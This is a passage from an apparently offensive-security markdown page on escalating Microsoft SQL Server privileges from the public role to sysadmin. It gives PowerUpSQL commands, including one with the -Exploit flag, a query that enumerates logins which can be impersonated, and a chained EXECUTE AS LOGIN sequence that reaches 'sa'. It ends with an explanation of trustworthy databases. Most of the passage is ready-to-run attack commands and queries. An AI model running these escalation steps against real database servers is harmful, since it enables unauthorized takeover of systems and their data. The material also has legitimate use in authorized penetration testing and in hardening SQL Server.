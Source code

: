 An automatic check for public to sysadmin privilege escalation can be done via:

```powershell
# PowerUpSQL
Invoke-SQLEscalatePriv -Verbose -Instance "SQLServer1\Instance1"
```

#### Public to Sysadmin - Impersonation

User Impersonation (EXECUTE AS): when EXECUTE AS is used, the execution context is switched to the specified login or user name. This allows impersonation of other users and logins to be able to access resources which means it can be abused to use privileges and objects available to other users.

The following SQL query allows to find SQL Server logins which can be impersonated in the current database:

```sql
-- HeidiSQL
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

or it can be done through `PowerUpSQL`:

```powershell
# PowerUpSQL
Invoke-SQLAuditPrivImpersonateLogin -Username "sqluser" -Password "Sql@123" -Instance "SQLServer1\Instance1" -Verbose
```
Exploit sysadmin privileges through user impersonation (does not work if chanined/nested impersonation must be performed to get to "sa", in fact only direct sa impersonation is supported):

```powershell
# PowerUpSQL
Invoke-SQLAuditPrivImpersonateLogin -Username "sqluser" -Password "Sql@123" -Instance "SQLServer1\Instance1" -Exploit -Verbose
```

The exploitation of chained/nested impersonation can be directly done by executing queries in `HeidiSQL`:

```sql
-- HeidiSQL
SELECT SYSTEM_USER 
SELECT IS_SRVROLEMEMBER('sysadmin') 
EXECUTE AS LOGIN = 'dbadmin' 
SELECT SYSTEM_USER 
EXECUTE AS LOGIN = 'sa' 
SELECT IS_SRVROLEMEMBER('sysadmin') 
SELECT ORIGINAL_LOGIN()
```

#### Public to Sysadmin - Trustworthy database

A database property (is_trustworthy_on) used to indicate whether a SQL Server instance trusts a database and its contents. The property is turned off by default as a security measure. Only a sysadmin can set a database to be TRUSTWORTHY. When TRUSTWORTHY is off, impersonated users (by using EXECUTE AS) will only have database-scope permissions but when TRUSTWORTHY is turned on impersonated users can perform actions with server level permissions.
